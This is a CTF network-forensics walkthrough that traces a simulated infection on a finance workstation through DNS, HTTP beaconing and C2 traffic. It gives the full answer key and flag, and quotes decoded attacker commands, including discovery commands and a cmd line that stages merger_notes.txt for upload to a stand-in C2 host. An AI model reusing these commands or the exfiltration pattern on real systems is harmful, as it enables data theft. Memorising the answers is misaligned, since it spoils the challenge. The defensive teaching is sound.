

# Silent Pulse — Full Network Forensics Write-up

## Challenge overview

**Category:** Network forensics  
**Difficulty:** Medium  
**Evidence file:** `silent_pulse.pcap`  
**Flag format:** `itc{...}`

The SOC captured approximately seven minutes of traffic from a finance VLAN.
The capture contains 452 packets from several workstations and includes routine
ARP, ICMP, DNS, mDNS, NTP, HTTP, and application telemetry. One workstation
downloads a suspiciously named file, contacts command-and-control infrastructure,
receives commands, and exfiltrates a dummy document.


## Objectives

The player must determine:

1. The compromised workstation IP and hostname.
2. The C2 domain, IP address, and port.
3. The beacon interval.
4. The commands issued by the C2 server.
5. The contents of the exfiltrated document.

## Answers

- Compromised IP: `10.10.20.15`
- Hostname: `WS-FIN-07`
- C2 domain: `updates-cdn.example`
- C2 IP and port: `198.51.100.77:8080`
- Beacon interval: 30 seconds
- Session key: `NOCTURNE`
- Exfiltrated file: `merger_notes.txt`
- Flag: `itc{silent_pulse_http_c2_exfil}`


## 1. Validate and open the evidence

The supplied checksum can be checked before analysis.

Linux:

```bash
sha256sum silent_pulse.pcap
```

PowerShell:

```powershell
Get-FileHash .\silent_pulse.pcap -Algorithm SHA256
```

Expected SHA-256:

```text
43b84fa2f5880a58d38323cbf7138463db03ceff73c4302c4d3b783990c51ac4
```

Open `silent_pulse.pcap` in Wireshark. A good first step is:

```text
Statistics > Protocol Hierarchy
Statistics > Endpoints
Statistics > Conversations
```

The capture deliberately contains several private clients and many external
documentation addresses. A busy endpoint or a connection to port 8080 is not by
itself proof of compromise.

## 2. Initial protocol triage

Useful broad Wireshark display filters are:

```text
dns
http
http.request
tcp.port == 8080
```

The equivalent TShark command for listing HTTP requests is:

```bash
tshark -r silent_pulse.pcap -Y "http.request" \
  -T fields \
  -e frame.number \
  -e frame.time_relative \
  -e ip.src \
  -e ip.dst \
  -e tcp.dstport \
  -e http.host \
  -e http.request.method \
  -e http.request.uri
```

This displays ordinary browser traffic, a printer-inventory service, a suspicious
download, and traffic to a second port-8080 service.

## 3. Identify the suspicious download

Search HTTP request URIs for unusual file extensions:

```text
http.request.uri contains ".exe"
```

Frame 193 contains this request:

```http
GET /shared/Q3_Benefits_Statement.pdf.exe HTTP/1.1
Host: fileshare-cloud.example
```

Important observations:

- The requesting host is `10.10.20.15`.
- The server is `203.0.113.50`.
- The filename uses a double extension: `.pdf.exe`.
- The response begins with `MZ`, resembling a Windows executable.

The returned object is deliberately inert and contains the text `THIS IS AN
INERT CTF TRAINING SAMPLE - NOT EXECUTABLE`. The important forensic clue is the
network behavior following the download, not execution of the object.

At this point, `10.10.20.15` is the primary suspect.

## 4. Investigate the DNS traffic

Filter DNS queries made by the suspected workstation:

```text
dns && ip.addr == 10.10.20.15
```

Or list all queried names with TShark:

```bash
tshark -r silent_pulse.pcap \
  -Y "dns.flags.response == 0 && ip.src == 10.10.20.15" \
  -T fields -e frame.number -e frame.time_relative -e dns.qry.type -e dns.qry.name
```

Shortly after the download, the workstation makes two related queries:

| Frame | Relative time | Query | Type |
|---:|---:|---|---|
| 251 | 242.000 s | `updates-cdn.example` | A |
| 253 | 243.000 s | `session.updates-cdn.example` | TXT |

The A response in frame 252 maps the suspected C2 domain to:

```text
updates-cdn.example -> 198.51.100.77
```

The TXT response in frame 254 contains:

```text
rotation=4E4F435455524E45
```

The capture also contains another legitimate TXT lookup, so filtering only on
DNS type TXT is not sufficient. The relationship to `updates-cdn.example` and
the suspicious workstation makes this response significant.

Convert the hex value to ASCII:

```bash
echo 4E4F435455524E45 | xxd -r -p
```

PowerShell:

```powershell
$hex = "4E4F435455524E45"
-join (0..(($hex.Length / 2) - 1) | ForEach-Object {
    [char][Convert]::ToByte($hex.Substring($_ * 2, 2), 16)
})
```

Python:

```python
bytes.fromhex("4E4F435455524E45").decode()
```

All three methods produce the session key:

```text
NOCTURNE
```

## 5. Separate real C2 traffic from the decoy

Filter all port-8080 traffic:

```text
tcp.port == 8080
```

There are two recurring services:

| Client | Server | URI | Interval | User-Agent |
|---|---|---|---:|---|
| `10.10.20.23` | `198.51.100.120` | `/v2/printer/status` | 45 seconds | `PrinterInventory/5.1` |
| `10.10.20.15` | `198.51.100.77` | `/api/v1/pulse` | 30 seconds | `WinSync/2.4` |

The first service is a deliberate decoy. Its requests contain routine printer
toner and paper status, and the server responses only specify the next polling
time. Regular timing alone does not prove C2 activity.

The second service is suspicious because:

- It begins just after the double-extension download.
- Its domain is associated with the unusual TXT key exchange.
- Its responses contain encoded command fields.
- The client later uploads a file to the same server.

The useful filter is:

```text
ip.addr == 198.51.100.77 && tcp.port == 8080
```

Or more specifically:

```text
http.host contains "updates-cdn.example"
```

## 6. Determine the victim identity and beacon interval

Filter only the C2 check-in requests:

```text
http.request.uri == "/api/v1/pulse"
```

The four requests begin in frames 258, 295, 338, and 382. Their relative times
are approximately:

```text
248.052 seconds
278.052 seconds
308.052 seconds
338.052 seconds
```

The difference between consecutive requests is exactly 30 seconds. Therefore,
the beacon interval is approximately:

```text
30 seconds
```

Following one of these TCP streams shows a JSON body similar to:

```json
{"host":"WS-FIN-07","user":"alice","seq":1,"status":"ready"}
```

The same request contains:

```http
X-Client-ID: V1MtRklOLTA3
```

Base64-decoding that header also produces `WS-FIN-07`. We now have two
independent ways to identify the host.

The compromised workstation is:

```text
IP:       10.10.20.15
Hostname: WS-FIN-07
User:     alice
```

## 7. Recover the C2 commands

Right-click a packet in each `/api/v1/pulse` conversation and select:

```text
Follow > TCP Stream
```

The server responses contain JSON objects such as:

```json
{"task_id":"T-4101","encoding":"base64","command":"d2hvYW1pIC9hbGw="}
```

The `encoding` field explicitly identifies Base64. Decode each `command` value:

```bash
echo d2hvYW1pIC9hbGw= | base64 -d
```

Or use Python:

```python
import base64
print(base64.b64decode("d2hvYW1pIC9hbGw=").decode())
```

The four tasks are:

| Task | Base64 value | Decoded command |
|---|---|---|
| T-4101 | `d2hvYW1pIC9hbGw=` | `whoami /all` |
| T-4102 | `aXBjb25maWcgL2FsbA==` | `ipconfig /all` |
| T-4103 | `cG93ZXJzaGVsbCAtTm9Qcm9maWxlIC1Db21tYW5kICJHZXQtQ2hpbGRJdGVtIEM6XEZpbmFuY2VcUXVhcnRlcmx5Ig==` | `powershell -NoProfile -Command "Get-ChildItem C:\Finance\Quarterly"` |
| T-4104 | `Y21kIC9jIHR5cGUgQzpcRmluYW5jZVxRdWFydGVybHlcbWVyZ2VyX25vdGVzLnR4dCA+ICVURU1QJVxjYWNoZS5kYXQ=` | `cmd /c type C:\Finance\Quarterly\merger_notes.txt > %TEMP%\cache.dat` |

The sequence shows account discovery, network discovery, finance-directory
discovery, and collection of `merger_notes.txt` into a temporary staging file.

## 8. Locate the exfiltration

Filter for HTTP upload activity to the C2 server:

```text
ip.addr == 198.51.100.77 && http.request.method == "POST"
```

Frame 399 begins a request to:

```http
POST /api/v1/upload HTTP/1.1
Host: updates-cdn.example:8080
```

The upload spans multiple TCP segments. Looking at only one packet will not show
the entire JSON object. Use `Follow > TCP Stream` so Wireshark reassembles it.

The reconstructed request contains:

```json
{
  "host": "WS-FIN-07",
  "file": "merger_notes.txt",
  "encoding": "base64+xor-repeating",
  "data": "..."
}
```

The encoding field tells us the required order:

1. Base64-decode the `data` string.
2. XOR the resulting bytes with the repeating key `NOCTURNE`.

## 9. Decode the exfiltrated document

Repeating-key XOR means that each data byte is XORed with a key byte. When the
end of `NOCTURNE` is reached, the key starts again at `N`.

```python
def xor_repeat(data, key):
    return bytes(
        value ^ key[index % len(key)]
        for index, value in enumerate(data)
    )
```

A small decoder is:

```python
import base64

encoded_data = "PASTE_THE_DATA_FIELD_HERE"
key = b"NOCTURNE"

encrypted = base64.b64decode(encoded_data)
plaintext = bytes(
    value ^ key[index % len(key)]
    for index, value in enumerate(encrypted)
)

print(plaintext.decode())
```

In CyberChef, use this recipe:

```text
From Base64
XOR — key: NOCTURNE, key encoding: UTF-8/Latin-1, repeating mode
```

The recovered dummy document is:

```text
NORTHSTAR LOGISTICS - INTERNAL
Project: Harbor acquisition
Meeting location: Dock 9 records office
This is synthetic CTF evidence.
FLAG: itc{silent_pulse_http_c2_exfil}
```



## Attack timeline

| Relative time | Event |
|---:|---|
| ~192 s | `10.10.20.15` requests `Q3_Benefits_Statement.pdf.exe` |
| 242 s | Victim resolves `updates-cdn.example` to `198.51.100.77` |
| 243 s | Victim receives the hex-encoded key from a DNS TXT response |
| 248 s | First C2 check-in and `whoami /all` task |
| 278 s | Second check-in and `ipconfig /all` task |
| 308 s | Third check-in and finance-directory discovery task |
| 338 s | Fourth check-in and document-collection task |
| 342 s | `merger_notes.txt` is uploaded to the C2 server |

## Final answers

```text
Compromised IP: 10.10.20.15
Hostname:        WS-FIN-07
C2 domain:       updates-cdn.example
C2 address:      198.51.100.77:8080
Beacon interval: 30 seconds
Session key:     NOCTURNE
Stolen file:     merger_notes.txt
Embedded flag:   itc{silent_pulse_http_c2_exfil}
```

Combine the required answers in the challenge's specified order to produce the
submission flag:

```text
itc{10.10.20.15_WS-FIN-07_updates-cdn.example_198.51.100.77:8080_30s_NOCTURNE_merger_notes.txt_itc{silent_pulse_http_c2_exfil}}
```

## Common mistakes

- Assuming every regular connection is C2 and selecting the printer telemetry decoy.
- Filtering only on port 8080 instead of comparing hosts, URIs, and response content.
- Ignoring the DNS TXT response because the capture contains another normal TXT query.
- Examining only individual upload packets instead of following the reassembled TCP stream.
- Applying XOR before Base64 decoding.
- Using the hexadecimal text directly as the XOR key instead of hex-decoding it to `NOCTURNE`.
- Using a non-repeating XOR operation.
- Searching the raw PCAP for `itc{`; the flag is not stored as plaintext.
